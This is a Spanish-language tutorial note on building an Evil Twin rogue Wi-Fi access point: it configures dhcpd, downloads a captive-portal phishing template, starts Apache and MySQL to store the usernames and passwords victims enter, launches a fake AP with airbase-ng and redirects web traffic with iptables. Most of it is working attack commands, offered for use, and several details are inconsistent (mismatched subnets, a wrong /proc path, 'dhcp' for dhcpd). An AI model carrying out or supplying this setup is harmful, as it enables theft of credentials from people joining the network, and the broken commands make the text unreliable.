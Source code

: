 Si bien sabemos el EvilTwin consiste en montar una copia del AP victima con un portal cautivo, aquí puede saber mas sobre esto [[EvilTwin]].

Nota: Esto solo funciona para las tarjeta de red Alpha, en mi caso es una tp-link, por lo tanto no funciona, pero existe una utilidad  **EvilTrust by s4vitar** que tira de [[HostAPD]].

Primero vamos a configurar un archivo dhcpd.conf (*demonio*) para que los clientes se les asigne una dirección IP.

	cd /etc
	nano dhcpd.conf

	authoritative;
	#Tiempo minimo/maximo para asignar una IP
	default-lease-time 600;
	max-lease-time 7200;
	subnet 192.168.2.128 netmask 255.255.255.128 {
		option subnet-mask 255.255.255.128;
		option broadcast-address 192.168.2.255;
		option routers 192.168.2.129;
		option domain-name-servers 8.8.8.8;
		range 192.168.2.130 192.168.2.140;
	}
	
Después descargaremos un portal cautivo, lo ubicamos en */var/www/html*, ya que estas rutas son publicas.

	wget https://cdn.rootsh3ll.com/u/20180724181033/Rogue_AP.zip
	unzip Rogue_AP.zip
	mv Rogue_AP/* .

Ahora para poder visualizar este portal cautivo tendremos que encender *Apache2* y *MySQL* para guardar el user y passwords ingresados.

	service apache2 start && service mysql start

Ahora si bien la plantilla cuenta con un archivo php donde se encuentra la conexión a la base datos, ahora debemos de realizar ciertas acciones en MySQL para la conexión.

1. Create database
2. Create table
3. Create user and assign privilegies
Esto se encuentra en el archivo *dbconnect.php*.


Ahora montaremos el AP con *airbase-ng*.

	airbase-ng -e wifi-gratis -c 6 -P wlan0mon

-P *Responde a todos los probe request*
-c *Canal del AP*

Y ya veremos el AP transmitiendo Becon request, si bien *airbase-ng* nos pide una interfaz de red llamada *at0*, esta interfaz será utilizada en modo [[Protocolos de Internet#Briged|Briged]] entre *wlan0mon* y *at0* para que al momento de que el usuario se conecte al AP sea redirigido al portal cautivó.

Ahora si vamos crear la interfaz de red *at0*, esto se tiene que realizar cuando el AP montado con airbase este activo.


	ifconfig at0 192.168.2.129 netmask 255.255.255.128


- 192.168.2.129 *Opción de routers en el archivo dhcpd.conf*
- 255.255.255.128 *NetMask configurada en el dhcpd.conf*

Ahora añadimos esto a route.

	route add -net 192.168.100.128 netmask 255.255.255.128 gw 192.168.100.129

Ahora toca habilitar el enrutamiento en el equipo para que las reglas que asignemos por iptables tengan sentido para esto emitimos un 1.

	echo 1 > /proc/sys/net/ip_forward

Con esto ya podemos visualizar la interfaz con ` ifconfig `

Ahora toca definir las reglas *Iptables* es decir que queremos hacer cuando el usuario trate de navegar, aplicaremos una limpieza por si hubiera algunas reglas creadas.

``` bash
iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain

#Vizualizamos las reglas activas
iptables -S
iptables -L
```

La intención es que cuando se conecte a nuestro AP responda la interfaz *eth0* (es con la que podemos navegar) para que puedan acceder a internet.

Ahora cuando definiremos las reglas para que cuando el usuario entre a una pagina http o https enviarlo a portal cautivo.

	iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE

-eth0 *Indicamos la out interface la que va a nutrir at0*

Ahora indicamos como debe de nutrir a la interfaz *at0*.

	iptables --append FORWARD --in-interface at0 -j ACCEPT
		#Indicamos la rediccion del puerto 80 al portal cautivo
	iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination $(hostname | awk '{print $1}')

Ahora nos ubicamos en */etc* para aplicar el *dhcp*.

	dhcp -cf /etc/dhcpd.conf -pf /var/run/dhcp.pid at0

-cf *Indicamos el archivo de configuración*
-pf *Indicamos la ruta donde guardaremos nuestro PID*

Al correr el dhcp puede que nos algunas cosas, por ejemplo:
1. Eliminar el archivo PID.
2. Crear un archivo en una ruta determinada.
